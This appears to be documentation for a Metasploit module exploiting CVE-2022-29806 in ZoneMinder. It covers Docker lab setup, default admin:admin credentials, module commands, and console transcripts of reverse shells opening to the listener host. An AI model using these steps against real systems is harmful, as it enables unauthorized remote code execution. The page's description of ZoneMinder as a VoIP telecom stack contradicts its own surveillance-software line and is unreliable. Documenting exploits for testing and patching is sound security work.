 ## Description

This module exploits an arbitrary file write chained with a path traversal in the debug log file option in language settings that leads to a remote code execution in ZoneMinder surveillance software versions before 1.36.13 and before 1.37.11

More about the vulnerability detail: [CVE-2022-29806](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2022-29806).

The module will automatically use `php/reverse_perl` payload.

The module will check if authentication is enabled but Zoneminder does not enable the authentication by default.

## Vulnerable Application

[Zoneminder](https://zoneminder.com/) is a free and open-source software defined telecommunications stack for real-time communication, WebRTC, telecommunications, video, and Voice over Internet Protocol.

This module has been tested successfully on Zoneminder versions:
* 1.36.4~64bit on Ubuntu 18.04
* 1.34.23~64bit on Debian 11.10

### Source and Installers

* [Source Code Repository](https://github.com/ZoneMinder/zoneminder/)
* [Installers](https://github.com/ZoneMinder/zoneminder/#installation-methods)
* [Docker](https://github.com/ZoneMinder/zmdockerfiles)

### Docker installation

```
docker run -d --rm -ti -p 1080:80 \
    -e TZ='Europe/London' \
    --shm-size="512m" \
    --name zoneminder \
    zoneminderhq/zoneminder:latest-ubuntu18.04
```
Navigate to [http:\//172.17.0.2/zm/index.php?view=privacy](http://172.17.0.2/zm/index.php?view=privacy) and click **APPLY** to activate the dashboard

### Enable authentication

To enable authentication for verification and scenarios, follow these steps:
1. Navigate to [http:\//172.17.0.2/zm/index.php?view=options](http://172.17.0.2/zm/index.php?view=options)
2. Tick the **OPT_USE_AUTH** option and click save
3. Login with the default password `admin:admin`
4. Navigate to [http:\//172.17.0.2/zm/index.php?view=options&tab=users](http://172.17.0.2/zm/index.php?view=options&tab=users) and change the admin password

## Verification Steps

1. Do: `use exploit/unix/webapp/zoneminder_lang_exec`
2. Do: `set RHOSTS [ips]`
3. Do: `set LHOST [lhost]`
4. Do: `run`
5. You should get a shell.

## Options

### USERNAME
The ZoneMinder username (default: admin)

### PASSWORD
The ZoneMinder password (default: admin)

## Scenarios
### Successful exploitation of ZoneMinder 1.36.4 on Ubuntu 18.04 Docker

```
msf6 > use exploit/unix/webapp/zoneminder_lang_exec
[*] Using configured payload php/reverse_perl
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set LHOST 172.17.0.1
LHOST => 172.17.0.1
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set VERBOSE true
VERBOSE => true
msf6 exploit(unix/webapp/zoneminder_lang_exec) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[+] Version Detected: 1.36.4
[*] Leak installation directory path
[+] Path: /usr/share/zoneminder/www
[+] Shell: ../../../../../tmp/rmdQiqoLFCsov.php
[*] Command shell session 1 opened (172.17.0.1:4444 -> 172.17.0.2:58932) at 2022-04-27 03:36:31 +0700

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Successful exploitation of ZoneMinder 1.36.4 on Ubuntu 18.04 Docker with authentication enabled

```
msf6 > use exploit/unix/webapp/zoneminder_lang_exec
[*] Using configured payload php/reverse_perl
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set LHOST 172.17.0.1
LHOST => 172.17.0.1
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set USERNAME admin
USERNAME => admin
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set PASSWORD password
PASSWORD => password
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set VERBOSE true
VERBOSE => true
msf6 exploit(unix/webapp/zoneminder_lang_exec) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[+] Version Detected: 1.36.4
[*] Leak installation directory path
[+] Path: /usr/share/zoneminder/www
[+] Shell: ../../../../../tmp/Cn3PqXcN9VlAR98.php
[*] Command shell session 1 opened (172.17.0.1:4444 -> 172.17.0.2:51944) at 2022-04-27 18:53:14 +0700

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Failed exploitation due to invaild credentials

```
msf6 > use exploit/unix/webapp/zoneminder_lang_exec
[*] Using configured payload php/reverse_perl
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set LHOST 172.17.0.1
LHOST => 172.17.0.1
msf6 exploit(unix/webapp/zoneminder_lang_exec) > set VERBOSE true
VERBOSE => true
msf6 exploit(unix/webapp/zoneminder_lang_exec) > run

[*] Started reverse TCP handler on 172.17.0.1:4444
[-] Service found, but authentication failed
[-] Exploit aborted due to failure: not-vulnerable: Target is not vulnerable.
[*] Exploit completed, but no session was created.
```
